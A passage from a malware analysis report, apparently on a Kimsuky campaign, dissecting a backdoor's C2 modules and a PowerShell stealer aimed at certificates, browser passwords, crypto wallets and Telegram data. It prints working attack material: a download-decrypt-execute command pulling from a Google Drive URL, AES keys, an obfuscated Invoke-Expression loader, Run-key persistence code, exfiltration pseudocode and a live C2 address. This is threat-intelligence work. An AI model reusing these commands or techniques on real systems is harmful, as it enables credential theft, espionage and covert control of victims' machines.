        // 3. Exfiltration Routine (sub_180001ba0)
        
        // A. Generate Random Temp Path
        sprintf(tempStagingPath, "%s%s_%d", tempDir, originalName, rand());
        
        // B. Read Target & Encrypt
        // Reads local file 'targetFilePath', XORs content with 0xFE, writes to 'tempStagingPath'
        bool success = StageAndEncryptFile(targetFilePath, tempStagingPath, 0xFE);
        
        if (success) {
            // C. Upload to C2
            // POST request with "file0" = targetFilePath and body = encrypted content
            UploadFileToC2(C2_URL, tempStagingPath);
            
            // D. Delete Staged File
            DeleteFileA(tempStagingPath);
        }
        
        // Move to next file in the list
        targetFilePath = strtok(NULL, "\r\n");
    }
    
    // 4. Acknowledge Completion
    // Tell C2 to delete the task list so we don't process it again
    SendCommand(C2_URL, "delete", "out");
}
```
#### 4.3.10 Payload Ingestion and Unpacking (/in)

The function sub_180005e30 handles the ingestion of incoming payloads from the C2 server. Unlike the text-based command parser, this function implements a custom "unpacking" routine designed to process binary blobs containing one or more files.

The malware requests a resource named /in from the C2 server.
- **URL Construction:** sprintf(buffer, "%s%s/in", &Global_C2_URL);
- **Action:** It downloads the full binary response into memory using the standard HTTP wrapper.

Upon download, the malware does not simply save the file. It iterates through the entire memory buffer byte-by-byte, scanning for a specific 16-byte signature.

- **The Signature:** The code checks for the sequence 0x41 through 0x50 (ASCII "A" through "P").
    - **Low QWORD:** 0x4847464544434241 (Little Endian for "ABCDEFGH")
    - **High QWORD:** 0x504f4e4d4c4b4a49 (Little Endian for "IJKLMNOP")
- **Purpose:** This string (ABCDEFGHIJKLMNOP) serves as a **delimiter** (boundary marker). The malware uses it to split the single downloaded blob into multiple distinct files or configuration blocks.

When the delimiter is found, the malware treats the data segment preceding the marker as a discrete file.
- **Filename Resolution:** The code parses the segment header to determine the filename (stored in var_258 in the decompilation).
- **Disk Write:** It calls fopen with mode "wb" (Write Binary) to create the file on disk.
- **Content:** It writes the extracted data chunk (calculated by subtracting the current pointer rbx_4 from the previous marker position r12_2) to the file.
- **Use Case:** This mechanism allows the attacker to push multiple tools, plugins, or updates in a single HTTP transaction.

Once the entire blob has been parsed and all embedded files have been written to disk, the malware sends a cleanup command:

- **Command:** sub_180001ee0("delete", 6, "in", ...)
- **Purpose:** This signals the C2 server to remove the /in resource, preventing the bot from re-downloading and re-processing the same payload package.
```c
// Pseudocode of the Unpacking Logic

// 1. Download the "Package"
char* blob = DownloadFile(C2_URL + "/in");
int blobSize = GetSize(blob);

// 2. Scan for the delimiter "ABCDEFGHIJKLMNOP"
int previousMarker = 0;
for (int i = 0; i < blobSize; i++) {
    
    // Check if we found the 16-byte signature
    if (memcmp(&blob[i], "ABCDEFGHIJKLMNOP", 16) == 0) {
        
        // 3. Extract the chunk between markers
        char* fileData = &blob[previousMarker];
        int fileSize = i - previousMarker;
        
        // (Simplified) Parse filename from the start of the chunk
        char* fileName = ParseFileName(fileData);
        
        // 4. Save the individual file
        FILE* fp = fopen(fileName, "wb");
        fwrite(fileData + HeaderOffset, 1, fileSize - HeaderOffset, fp);
        fclose(fp);
        
        // Update marker
        previousMarker = i + 16;
    }
}

// 5. Confirm success
SendCommand(C2_URL, "delete", "in");
```
#### 4.3.11 Remote Command Execution (/cmd)
The function sub_1800066c0 provides the capability to execute arbitrary system shell commands. Unlike a fully interactive reverse shell, this function operates in a "blind" execution mode.

**1. Command Retrieval**  
The malware polls the C2 server for a resource named /cmd.
- **URL Construction:** sprintf(buffer, "%s%s/cmd", &Global_C2_URL);
- **Request:** It downloads the command list using the standard HTTP client wrapper.

**2. Execution Logic**  
The malware parses the response line-by-line (\r\n delimiter) and executes each line as a separate process.
- **Command Construction:** It prepends the Windows Command Interpreter to the payload: sprintf(..., "cmd /c %s", downloaded_cmd).
- **Stealth Execution:** It invokes CreateProcessA with the CREATE_NO_WINDOW flag. This suppresses the console window, ensuring the execution remains invisible to the user.
- **Process Synchronization:** It calls WaitForSingleObject with an infinite timeout (0xFFFFFFFF). This halts the malware's main thread until the spawned command finishes execution.

**3. Output Handling (Blind Execution)**  
Notably, the STARTUPINFO structure is initialized to zero, and standard output (STDOUT) handles are not redirected. This means the malware **does not** automatically return the command's text output to the C2 server. The attacker typically uses this for state-changing commands (e.g., adding users, deleting logs) or must redirect output to a file (e.g., cmd /c ipconfig > tmp.txt) and request that file via the /out module.

**4. Cleanup**  
Once the batch of commands has been executed, the malware acknowledges completion:
- **Command:** sub_180001ee0("delete", 6, "cmd", ...)
- **Purpose:** Instructs the C2 to clear the command queue.
#### 4.3.12 Update Mechanism (/cok)
The function `sub_1800069e0` is designed to update the core malware payload or re-trigger the infection chain.
##### 1. Command Retrieval
The malware polls the C2 server for a resource named /cok.
- **URL:** sprintf(buffer, "%s%s/cok", &Global_C2_URL);
- **Request:** It downloads the resource using sub_180008060.
##### 2. Update Logic
Upon successfully downloading the /cok resource, the malware performs the following actions:
1. **Path Construction:** It resolves the path to %LOCALAPPDATA%\net (var_258 buffer manipulation).
    - Recall that net is the filename monitored by the loader (sys.dll) to trigger reflective injection.
2. **File Download:** It uses URLDownloadToFileA to download the payload pointed to by the content of /cok (likely a URL redirect or direct link) and saves it as **%LOCALAPPDATA%\net**.
3. **Triggering the Loader:** By saving the file as \net, the malware re-activates the watchdog thread in the loader (sys.dll). This causes the new net.dll (or updated payload) to be decrypted and injected into memory immediately.
##### 3. Cleanup
After successfully downloading the update, the malware sends a confirmation to the C2:  
sub_180001ee0("delete", 6, "cok", ...)
#### 4.3.13 File Search & Exfiltration (/dir)
The function sub_180006170 allows the attacker to search for specific files on the infected machine and exfiltrate them.
##### 1. Command Retrieval
The malware polls the C2 server for a resource named /dir.
- **URL:** sprintf(buffer, "%s%s/dir", &Global_C2_URL);
- **Request:** Download command file.
##### 2. Search Execution
The downloaded file contains a list of directory paths to search. For each path provided by the C2, the malware constructs a command to recursively search for files with specific extensions.
**Target Extensions:**  
The code constructs a cmd.exe command that loops through a list of sensitive file extensions:  
hwp pdf doc docx xls xlsx zip rar egg txt jpg png jpeg alz ldb log

**Command Logic:**  
`cmd.exe /c for %i in (hwp pdf doc docx xls xlsx zip rar egg txt jpg png jpeg alz ldb log) do dir "TARGET_PATH\*.%i" /s >> "%LOCALAPPDATA%\list.log"`
- It recursively (/s) searches the specified directory.
- It targets documents, archives, and images.
- It appends the results to a local file named list.log (in %LOCALAPPDATA% or a temp dir).
**Wallet Searching:**  
It also explicitly searches for cryptocurrency wallets:  
`cmd.exe /c dir Path\*wallet* Path\UTC--* /s >> "list.log"`
##### 3. Data Exfiltration
After generating the list.log file (which contains the full paths of all matching files), the malware performs the following:
1. **Read Log:** Reads the content of list.log.
2. **Upload:** Uploads the file listing to the C2 server (likely to the /in endpoint or similar, handled by sub_180001ba0).
3. **Cleanup:** Deletes list.log and sends a delete dir confirmation to the C2.
#### 4.3.14 Keylogger Exfiltration (sub_180005030)
This function is responsible for harvesting the captured keystrokes and sending them to the C2 server.

**1. Target File Identification**
- **Code:** sub_18000a8fc(&data_180024ff0, ...)
- **Context:** We identified that data_180024ff0 holds the path: **%LOCALAPPDATA%\netkey**.
- **Behavior:** The function opens this log file. If the file doesn't exist or is empty (result 0), the function exits.

**2. Data Reading and Memory Allocation**
- **Code:** sub_18000a0c8(`_fileno(rax)`) gets the file size.
- **Code:** operator new allocates a buffer to hold the log content.
- **Code:** sub_18000b210 reads the file content into the buffer.

**3. Exfiltration (The "kl" Tag)**
- **Code:** sub_180001ee0(rax_3, rbx.d, "kl", ...)
- **Analysis:** It calls the central upload function with the tag **"kl"**. This indicates to the C2 server that the incoming data stream contains keystrokes.

**4. Forensic Cleanup**
- **Code:** DeleteFileW(&data_180024ff0)
- **Significance:** Immediately after a successful upload, the local netkey file is deleted. This minimizes the forensic footprint on the disk; the file only grows between upload intervals.
#### 4.3.15 Component Downloader "tmp64" (sub_180005100)
This function downloads a specific tool or plugin from the C2, likely a 64-bit helper utility.
**1. Resource and Destination**
- **Remote Resource:** `/tmp64` (appended to the C2 URL).
- **Local Destination:** `%LOCALAPPDATA%\notepad.tmp`.
    - Note: The name `notepad.tmp` suggests an attempt to blend in, or it might be a legitimate notepad.exe executable being downloaded to perform DLL side-loading with a malicious plugin later.

**2. Download Mechanism**
- **Code:** `URLDownloadToFileW(..., URL, LocalPath, ...)`
- **Analysis:** It uses the high-level COM API to fetch the file.

**3. Cleanup/Ack**
- **Code:** `sub_180001ee0("delete", 6, "tmp64", ...)`
- **Analysis:** Similar to other modules, it tells the C2 "I have received the tmp64 module, stop sending it."
#### 4.3.16 File System Reconnaissance Loop (netlist.log)
The function sub_180006c90 manages the periodic scanning and exfiltration of the victim's file system structure. Unlike a one-time command, this appears to be a persistent, cyclic task gated by the C2 server.

Before performing any action, the malware beacons to the C2 server requesting the resource /netlist.log_.
- **Purpose:** This serves as a remote switch. If the C2 server does not respond successfully (e.g., returns 404), the function terminates immediately. This allows the attacker to disable file scanning for specific bots to reduce noise or bandwidth.

If the task is active, the malware checks for the existence of the local log file %APPDATA%\netlist.log (referenced by data_1800247f0).

If the log file **does not exist** (which is the default state after a cleanup), the malware initiates a full system scan:
- **Drive Enumeration:** It iterates through all available logical drives.
- **Document Scan:** It executes cmd.exe to recursively search for sensitive file extensions (hwp, doc, xls, pdf, jpg, zip, egg, alz, etc.) and appends the results to netlist.log.
- **Wallet Scan:** It executes a secondary search for cryptocurrency artifacts (`*wallet*, UTC--`).

If the log file **already exists** (meaning a scan was recently completed), the malware shifts to exfiltration mode:

- **Upload:** It calls sub_180001ba0 to encrypt and upload the netlist.log file to the C2 server.
- **Cleanup:** Immediately after the upload, the local netlist.log file is deleted.
- **Cycle:** Because the file is deleted, the next time this function runs (and the C2 permits it), the malware will re-enter "Branch A" and generate a fresh scan of the file system.
#### 4.3.17 Clipboard Credential Harvesting
The function `sub_180001860` runs as a dedicated thread, continuously monitoring the system clipboard. Unlike a generic clipboard logger, this module implements specific filters to target credentials and minimize log volume.

The function executes an infinite loop with a 50ms polling interval (Sleep(0x32)).
- **Format Check:** It verifies `IsClipboardFormatAvailable(CF_TEXT)` to ensure only ANSI text is processed.
- **Length Filter (Credential Targeting):** It calculates the length of the clipboard text. The data is processed **only if the length is less than 100 characters** (0x64).
    - Significance: This indicates the malware is specifically hunting for short, high-value strings such as **passwords, banking pins, and cryptocurrency addresses**, while ignoring large text blocks to save bandwidth and reduce noise.

To prevent the log file from filling with the same copied text:
- **Hashing:** The malware calculates a custom hash of the clipboard string using a **Rotate Right (ROR) 13** algorithm (specifically ror(hash + 1, 13) + char).
- **Comparison:** It compares the result against a global variable holding the previous hash. If they match, the data is discarded.

If the text passes the length and duplicate checks:
- **Formatting:** The content is wrapped in brackets: `[[ COPIED_TEXT ]]`.
- **Storage:** It is appended to the local file `%LOCALAPPDATA%\netkey`.
- **Attribute Hiding:** The file attributes are set to FILE_ATTRIBUTE_HIDDEN.

Immediately after writing to the log, the function calls sub_180005320 to manipulate the file system timestamps.
- **Source:** It retrieves the Creation, Last Access, and Last Write times from the **host malware executable** (data_180027220).
- **Destination:** It applies these timestamps to the netkey log file.
- **Goal:** This makes the constantly updating log file appear "static" and old, helping it blend in with legitimate system files during a forensic timeline analysis.
#### 4.3.18 Keystroke Logging and Context Capture
The function sub_1800057e0 executes as a persistent thread, serving as the malware's primary keylogger. It captures user input and maps it to the specific application window where it occurred.

Before recording any keystrokes, the malware continuously monitors the active window state.
- **Window Tracking:** It calls GetForegroundWindow to detect if the user has switched applications (e.g., from Chrome to Notepad).
- **Metadata Capture:** Upon detecting a context switch, it retrieves the new window title via GetWindowTextW.
- **Log Formatting:** This title is written to the capture buffer (data_18002d1a0) prefixed by newlines (\r\n\r\n), creating a clear separation in the logs.

The malware uses an infinite loop with a 1ms delay (Sleep(1)) to poll the keyboard state.
- **Targeting:** It iterates through a predefined list of Virtual Key (VK) codes (Alphanumeric A-Z, 0-9, and common controls).
- **State Detection:** It uses GetAsyncKeyState to determine if a key is currently pressed (0x8001).
- **Modifier Tracking:** It explicitly checks the state of VK_SHIFT (0x10), VK_CONTROL (0x11), and VK_MENU (Alt, 0x12) to handle combinations correctly.

Raw virtual key codes are passed to this helper function to be converted into human-readable text.

**A. Special Key Translation:**  
It uses a switch statement (offset by 0x08) to map control keys to string tags:
- VK_RETURN -> `[ENT]`
- VK_BACK -> `[BCK]`
- VK_TAB -> `[TAB]`
- VK_DELETE -> `[DEL]`
- VK_CONTROL + Key -> Formats as `[CTRL-Key]`.

**B. Character Case Handling:**
- **Default:** GetAsyncKeyState returns uppercase VK codes for letters. The function adds 0x20 to these values to convert them to lowercase (e.g., 'A' -> 'a') by default.
- **Shift/Caps Logic:** If the Shift key is detected, it adjusts the mapping (e.g., logging `[SHIFT]` or preserving the case) to ensure the typed text mirrors the user's intent.

**C. Symbol Mapping:**  
It performs arithmetic on VK_OEM keys to map specific virtual codes (like 0xBA) to their ASCII punctuation equivalents (e.g., ;, =, ,, -).

**D. Data Buffering**  
All formatted keystrokes are appended to the global buffer data_18002d1a0. As analyzed in previous sections, this buffer is periodically flushed to `%APPDATA%\netkey` and subsequently exfiltrated.
## Stage 5: Else Block: Windows Defender Active

The **ELSE Block** is executed when the WinDefend service is **NOT STOPPED** (i.e., it is running or active). This path deploys the full, file-based malware installation, indicating the attacker assumes that even with Windows Defender running, a multi-stage, encrypted delivery using trusted cloud hosts and LotL binaries will succeed in establishing a persistent presence.

The deployment of the full malware suite is broken down into two chained commands:
### Download, Decrypt, and Extract
```powershell
cmd /c cd /d %localappdata% && curl -L -o pipe.log "https://drive.google.com/uc?export=download&id=1jqpw8UHpsY5ps3nKOfkyo2ql4hC23Mew" && powershell -Command "[System.IO.File]::WriteAllBytes('pipe.zip', (New-Object System.Security.Cryptography.AesManaged).CreateDecryptor([System.Text.Encoding]::UTF8.GetBytes('ftrgmjekglgawkxjynqrwxjvjsydxgjc'), [System.Text.Encoding]::UTF8.GetBytes('rhmrpyihmziwkvln')).TransformFinalBlock([System.IO.File]::ReadAllBytes('pipe.log'), 0, [System.IO.File]::ReadAllBytes('pipe.log').Length))" && del pipe.log && powershell Expand-Archive -Path pipe.zip && del pipe.zip
```
1. **Staging Location:** The script changes directory to the persistent, per-user `%localappdata%` folder, indicating the malware intends to remain on the system.
2. **Download:** **curl** downloads a relatively small encrypted file (15,552 bytes) named **pipe.log** from a **Google Drive URL**.
    - **Encrypted Hash (SHA256):** `96D8753B41718D720DA256F72DA11ACF3F990E79585CF8A6596D5F2630332DF5`
3. **Decryption:** A PowerShell command, using the same **AES keys** (`ftrgmjekglgawkxjynqrwxjvjsydxgjc` and `rhmrpyihmziwkvln`), decrypts the contents of pipe.log and writes the resulting data to **pipe.zip**.
4. **Extraction:** The native PowerShell utility **Expand-Archive -Path pipe.zip** unzips the file into a new directory named **pipe** within `%localappdata%`, containing all the necessary components for the malware suite.
5. **Clean-up:** The temporary files pipe.log and pipe.zip are deleted.

```powershell
Get-FileHash .\pipe.log

Algorithm       Hash 
---------       ----
SHA256          96D8753B41718D720DA256F72DA11ACF3F990E79585CF8A6596D5F2630332DF5

dir .\pipe.log

Directory: C:\Users\Profzzor\Desktop\Kimsuky

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
------        04-12-2025     00:47          15552 pipe.log
```

```powershell
Get-FileHash .\pipe.zip

Algorithm       Hash
---------       ----
SHA256          99405AB2AEAB2DC0ED91CF366CE24BF4B07647523296ABE35FFA95491D99B998
```
```powershell
dir .\pipe\

Directory: C:\Users\Profzzor\Desktop\Kimsuky\pipe

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        23-11-2025     19:06          35636 1.log
-a----        25-11-2025     07:48            185 1.ps1
-a----        17-11-2025     09:32           5056 1.vbs
-a----        20-07-2025     00:15           5384 2.log
```
```powershell
Get-FileHash .\pipe\*

Algorithm       Hash
---------       ----
SHA256          65148CD115DD226EA98B11A71432203F995CE908810A283387714BD34CE8122D       C:\Users\Profzzor\Desktop\Kimsuky\pipe\1.log
SHA256          0551B7D38F0919CBDD054FD4B92FAC5CFAF2495247B59C2D3FB0B14477A20B88       C:\Users\Profzzor\Desktop\Kimsuky\pipe\1.ps1
SHA256          653E534FB149E4E90AFD9C5D180A6AFB990272DA2DAA3833C8CDE221AA5E6AFA       C:\Users\Profzzor\Desktop\Kimsuky\pipe\1.vbs
SHA256          092C2607C9F60360BAC8EB22059AC51330DCE71080AB99F494F96523B7E177EF       C:\Users\Profzzor\Desktop\Kimsuky\pipe\2.log
```
### Execution
The final command in the **Else Block** executed the script `%localappdata%\pipe\1.ps1`.
```powershell
cmd /c cd /d %localappdata% && cd pipe && powershell -ExecutionPolicy Bypass -WindowStyle Hidden -NoProfile -File 1.ps1 -FileName 1.log
```
It silently launches PowerShell with execution-policy bypass to run the malicious script `1.ps1` using `1.log` as its input.
```powershell
param (
    [string]$FileName
)
$content = G`Et`-`cONteNt $FileName -Raw
$plain = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($content))
I`Ex $plain
```
The 1.ps1 script acts as a self-decoding loader. It takes a Base64-encoded payload from a separate file (1.log), decodes it, and executes the resulting code directly into memory using Invoke-Expression.


After decoding the Base64-encoded **1.log** file, the contents reveal a PowerShell script, which I refer to as `stage5.ps1`.
#### 1.log -> stage5.ps1
The decoded payload (`stage5.ps1`) functions as a fully-featured data-stealing and command-execution agent. Once invoked by the loader, it establishes a working directory tied to the system’s UUID, performs environment checks to avoid running inside virtualized/sandboxed environments, and ensures only a single instance of itself is active. It then proceeds to collect extensive information from the system—such as browser data, stored credentials, cookies, extension profiles, Telegram artifacts, recent files, and other sensitive file types—and stages these items for upload.

The script implements a built-in exfiltration mechanism using chunked HTTP POST requests to a remote server, applying simple XOR obfuscation to files before transmission. It also sets up persistence through a Run key pointing to the initial loader.
##### Initial Setup and Environment Variables
The script first establishes key environment variables and prepares the necessary storage infrastructure.
- **Unique Victim ID:** $id = (`Get-WmiObject -Class Win32_ComputerSystemProduct`).UUID
    - The malware generates a unique identifier ($id) for the victim machine by querying the system's **Universally Unique Identifier (UUID)**. This is used to track the host across the C2 infrastructure.
- **Staging Directory Creation:**
    - $tempPath = $env:TEMP
    - New-Item -Path "$tempPath\$id" -ItemType Directory -Force
    - The script creates a dedicated, uniquely named sub-directory within the %TEMP% folder using the machine's UUID. This is where all collected data and temporary files will be stored. $storePath is set to this location.
- **C2 Server URL:** $serverurl = `https://quemr.mailhubsec.com/`
    - This is the hardcoded **primary Command and Control (C2) address**. This URL will be used to exfiltrate reconnaissance data and receive further commands.
##### Mutex Implementation (Anti-Concurrency)
The script implements a basic form of anti-concurrency, ensuring that only a single instance of the malware is running on the infected system at any given time.
- **PID File Check:** The script checks for the existence of a persistent **PID file** (`$pidFile = "$tempPath\pid.txt"`).
- **Check and Exit:**
    - If the file exists, the script reads the PID (Process ID) of the previously running instance.
    - It attempts to use `Get-Process -Id $previousPid` to verify if that process is still active.
    - If the process is active, the new instance **exits**, preventing resource contention and making the malware less noisy.
- **Startup and Clean:** If the previous process is not found (or the file is missing), the script deletes the old PID file and writes the **current process's PID** to the file, marking itself as the sole running instance.
##### Advanced Anti-Virtualization Checks
Before executing the core reconnaissance logic, the script performs a more advanced check for common virtual machine platforms, complementing the checks found in the Init function.
- **Manufacturer Check:** It queries the computer's system manufacturer using `Get-CimInstance -ClassName Win32_ComputerSystem`.
- **Evasion Logic:** If the manufacturer string matches: **"VMware", "Microsoft"** (often indicating Hyper-V), or **"VirtualBox"**, the script executes the `KillMe` function.
#### KillMe
The KillMe function is the malware's **self-destruct routine**, designed to wipe all traces of the initial installation before the process terminates.
- **Artifact Removal:** It systematically removes the primary components dropped in the `%localappdata%\pipe` directory: `2.log, 1.ps1, 1.log, and 1.vbs`.
- **Termination:** The final Exit command terminates the PowerShell script, preventing the core malicious payload from running in a suspected analysis environment.
#### RegisterTask
This function establishes persistence by creating a **Run** key under  
`HKCU\Software\Microsoft\Windows\CurrentVersion\Run`.  
It points to the VBS loader (`1.vbs`), ensuring the malware executes on every user logon.
```powershell
function RegisterTask {
	#$execpath = "powershell -ExecutionPolicy Bypass -WindowStyle Hidden -NoProfile -File $localPath\pipe\1.ps1 -FileName $localPath\pipe\1.log"
	$execpath = "$localPath\pipe\1.vbs"
	New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "WindowsSecurityCheck" -Value $execpath -PropertyType String -Force
}
```
#### Init
The Init function systematically gathers critical information about the victim machine and checks for signs of an analysis environment (a sandbox or virtual machine).
##### 1. Espionage Target: Digital Certificates (Credential Stealing)
The function first focuses on gathering the victim's local digital certificates, a high-value intelligence target, particularly in South Korea where **NPKI/GPKI** certificates are used for secure banking and government access.

- The script attempts to locate the primary directories for Public Key Infrastructure (PKI) certificates:
    - AppData\LocalLow\NPKI (National Public Key Infrastructure)
    - C:\GPKI (Government Public Key Infrastructure)
- If either directory exists, the script uses Compress-Archive to **ZIP the entire directory**, saving the archives (NPKI.zip and GPKI.zip) to a designated storage location ($storePath). 
##### 2. Sandbox and Virtual Machine Evasion
The script contains an explicit **anti-virtualization check** designed to shut down the malware if it detects a security analyst's environment.
- The code queries system information (via Get-PhysicalDisk) and checks the output ($diskInfo) for the presence of virtualization-related strings:
    - "Virtual Disk"
    - "Virtual HD"
    - "VMware"
    - "Google PersistentDisk"
- If any of these strings are found, the if block executes a function named **KillMe**. This call terminates the malware's execution, preventing analysts from observing the full capabilities of the final payload, which is a signature TTP of advanced APT groups.
##### 3. Detailed System Fingerprinting
The remainder of the function is dedicated to exhaustive **system reconnaissance** to fingerprint the victim machine. All collected data is appended to an output file (`info.txt`) in the temporary folder.
- **Privilege Check:** Checks if the script is running with **Administrator privileges** (isAdmin).
- **UAC Setting:** Retrieves and logs the User Account Control (UAC) setting (ConsentPromptBehaviorAdmin) from the registry, crucial for future privilege escalation attempts.
- **System and Hardware Info:** Collects comprehensive information, including:
    - Operating System details (Win32_OperatingSystem
    - CPU details (Win32_Processor)
    - Disk and Volume details (Get-PhysicalDisk, Get-Volume)
    - Active Processes (Get-Process)
- **Installed Software:** Queries the registry keys for both 32-bit and 64-bit applications to compile a complete list of all **Installed Programs** (DisplayName, Publisher, InstallDate), which helps the attackers understand the victim's environment and potential defensive tools.
#### RecentFiles
The function operates by targeting the native Windows mechanism for tracking user activity.
1. **Target Directory:**
    - `$recentFolder = [System.IO.Path]::Combine($env:APPDATA, 'Microsoft\Windows\Recent')`
    - The script explicitly targets the `%APPDATA%\Microsoft\Windows\Recent` directory. This folder contains all of the user's **Shell Link Files (.lnk)** that Windows uses to populate the "Quick access" and "Recent items" lists.
2. **LNK File Collection:**
    - $recentFiles = `Get-ChildItem -Path $recentFolder -Filter *.lnk`
    - It collects every shortcut file from this directory, as each one points to a file or folder the user has interacted with.
3. **Target Path Resolution:**
    - `$targetPath = Get-ShortcutTargetPath -shortcutPath $_.FullName`
    - The script iterates through every collected .lnk file and uses a custom function (implied by Get-ShortcutTargetPath) to **resolve the actual path of the file or folder** the shortcut points to. This converts the shortcut file itself into the full, original path of the user's document (e.g., converting Document.docx.lnk into C:\Users\Victim\Documents\Project\Document.docx).
4. **Data Staging:**
    - `$outputFile = "$storePath\recent.txt"`
    - The resolved file paths are appended to a new file named **recent.txt** within the UUID-named staging folder ($storePath).
##### Get-ShortcutTargetPath (LNK Resolver)
This function employs a classic technique used in Windows scripting.
1. **COM Object Creation:**
    - $shell = New-Object -ComObject WScript.Shell
    - The function initializes the **WScript.Shell** COM object. This is a core component of the Windows Script Host environment and provides administrative-level access to the file system, registry, and shell operations.
2. **Shortcut Object Instantiation:**
    - `$shortcut = $shell.CreateShortcut($shortcutPath)`
    - Using the COM object, the script loads the specific .lnk file provided by the calling function (RecentFiles) into a programmable object ($shortcut).
3. **Target Resolution:**
    - `return $shortcut.TargetPath`
    - The function then simply accesses the **TargetPath** property of the loaded shortcut object. This property is automatically resolved by Windows (handling environment variables, relative paths, etc.) and returns the full, absolute path of the file or folder the original shortcut pointed to.
#### GetBrowserData
This function targets four major browsers: **Edge, Chrome, Naver Whale, and Firefox**, iterating through every user profile in the Chromium-based browsers
##### Data Stealing Mechanism
For the Chromium-based browsers (Edge, Chrome, Naver Whale):
- **Master Key Exfiltration:** This is the most critical step. Chromium browsers protect saved passwords using a locally encrypted "Master Key" (stored in Local State). The code first extracts this key ($jsonObject.os_crypt.encrypted_key or via regex) and then calls the **Unprotect-Data** function. This function uses the Windows Data Protection API (DPAPI) to **decrypt the Master Key**, saving the raw key to the staging folder (e.g., chrome_masterkey). The attackers need this key to decrypt all of the user's saved passwords, cookies, and credit card data.
- **Credential and History Theft:** The script directly copies the following files from every user profile directory to the malware's staging folder ($storePath):
    - **Login Data**: Contains all saved usernames and passwords.
    - **Bookmarks**: Collects the user's saved favorites.
For **Firefox**:
- Firefox uses different storage, so the script copies the relevant files directly: **key4.db**, **key3.db** (the key databases for passwords), **cookies.sqlite**, and **logins.json** (saved credentials).
##### Extension Listing
- For all Chromium browsers, the script compiles a list of every installed browser extension by name, saving it to extensions.txt. This allows the attacker to profile the user's security tools, banking tools, or development environment.
##### Process Handling (Commenting)
- The code includes commented-out blocks (# Stop-Process -Name msedge -Force) that would normally attempt to kill the running browser processes before copying the files, as database files like Login Data are often locked while the browser is running. The fact that these are commented out suggests the attackers either found a way to copy locked files or are accepting a low rate of failure.
#### GetExWFile (Targeted Crypto Wallet Stealing)
This function, called by GetBrowserData, the objective is the theft of **Cryptocurrency Wallet** data.
- The function contains three massive hardcoded hash tables ($hashTable, $hashTable2, $hashTable3). The **keys** in these tables are the unique, non-user-readable **Chromium Extension IDs** of popular wallets.
- The **values** are the short, identifiable names (e.g., "meta" for MetaMask, "tron" for TronLink, "binan" for Binance Wallet, "keplr" for Keplr, etc.).
- The script iterates through all known wallet extension IDs and, if found, copies the wallet's local storage files (`*.ldb` and `*.log` files from Local Extension Settings and IndexedDB) to the staging folder. These files contain the encrypted (or sometimes unencrypted) seed phrases and private keys for the wallets.
#### Unprotect-Data (DPAPI Decryptor)
This is the essential decryption function that makes the entire browser theft operation possible.
- **Input:** Takes the Base64-encoded, encrypted Master Key ($encryptedData) extracted from the browser's Local State file.
- **Decryption:** It uses the `System.Security.Cryptography.ProtectedData::Unprotect` method with the **CurrentUser** scope. This API is the legitimate Windows method to decrypt data that was encrypted on the local machine by the current user.
- **Output:** The decrypted Master Key is written to the staging directory (chrome_masterkey, edge_masterkey, etc.).
#### GetTelg
This function confirms the malware's focus extends beyond browsers to high-value communication platforms, specifically targeting the **Telegram Desktop** application.
- **Target:** The function specifically targets the **%APPDATA%\Telegram Desktop\tdata** folder, which stores all of Telegram's user data, including encrypted session files, cache, and configuration.
- **Theft Mechanism:**
    - It checks for the existence of the source folder.
    - It copies a specific sub-folder, **D877F783D5D3EF8C**, which often contains the user's encrypted local data keys.
    - It then iterates through all **files** in the root tdata folder and copies them.
- **Conclusion:** By copying these core data folders and files, the attacker gains the necessary components to potentially **decrypt or impersonate the victim's Telegram session**, allowing for further espionage, lateral movement, and communication hijacking.
#### CreateFileList
This is a deep-scan reconnaissance module designed to locate all documents and high-interest files on the victim's machine, effectively creating a list of files to steal next.
- **Scope:** The function iterates through all accessible file system drives (Get-PSDrive). It focuses the search on the entire drive root for non-C drives, and the entire C:\Users folder for the main drive.
- **Targeted Extensions:** It first searches for a massive list of document and archive extensions (*.txt, *.doc, *.docx, *.xls, *.xlsx, *.pdf, Korean HWP files *.hwp, *.hwpx, common image files, and archive formats) using the -Include filter.
- **Targeted Filenames (High-Value):** It then performs a second, highly specific search, matching files whose names contain keywords directly related to financial and credential data:
    - wallet, keystore, privatekey, metamask, phrase, ledger, dcent (Cryptocurrency-related).
    - password (Generic credentials).
    - UTC--, myether (Ethereum and wallet-related files).
- **Staging:** The full paths of all discovered files are appended to **FileList.txt**.
- **Pre-Exfiltration:** The list is then immediately compressed into **lst.zip**, renamed to **lst.dat**, and the **UploadFile** function is called to send this inventory to the C2 server.
#### Send (Initial Data Exfiltration and Clean-up)
This function is responsible for bundling all the initial reconnaissance data (from Init, GetBrowserData, GetTelg, etc.) and transmitting it to the C2 server.
- **Data Bundle:** The entire staging directory ($storePath, named after the UUID and containing all browser, certificate, and recent file data) is compressed into **init.zip**.
- **C2 Communication:** The ZIP file is renamed to **init.dat** (a decoy extension) and uploaded to the C2 server (`$serverurl`) using the unique victim ID (?id=$id). The call to an external (implied) **UploadFile** function handles the transport.
- **Clean-up:** Upon successful upload ($result -eq $true), the function ensures immediate **clean-up**, deleting the entire staging directory contents and the final init.dat file.
#### EncryptFile (Pre-Upload Data Obfuscation)
This function takes the staged reconnaissance file ($InputFile) and encrypts it using a simple but effective technique before the upload can proceed.
- **Cipher:** The function implements a file-level **XOR cipher**. This is achieved by iterating through the file's content, reading it in 1MB chunks ($BufferSize), and applying the bitwise XOR operation (-bxor) to every byte.
- **Key:** The fixed, single-byte key is explicitly set as **0xFE** by the calling function (UploadFile).
- **Process:** The function uses standard .NET file streams (`$inputStream, $outputStream`) to read from the original file and write the XOR-scrambled data to a new temporary file ($OutputFile), ensuring the original file remains intact until the upload is complete.
#### UploadFile (Secure Transmission and Chunking)
The UploadFile function then takes the newly XOR-encrypted file and manages its transmission to the C2 server (`https://quemr.mailhubsec.com/`).
- **HTTP Protocol:** The script uses the robust .NET HttpClient for asynchronous, modern C2 communication, which is less likely to be blocked than older methods.
- **File Chunking:** To handle the potentially massive data files (up to 4MB at a time), the function breaks the encrypted file into **4MB chunks**. Each chunk is sent as a separate part of a standard **MultipartFormDataContent** request, simulating a normal browser file upload.
- **C2 Communication Variation:** The initial chunk is sent to the base URL, while subsequent chunks are sent to a modified URL with an ap=1 parameter ($uploadUrl2), likely for server tracking and minor evasion.
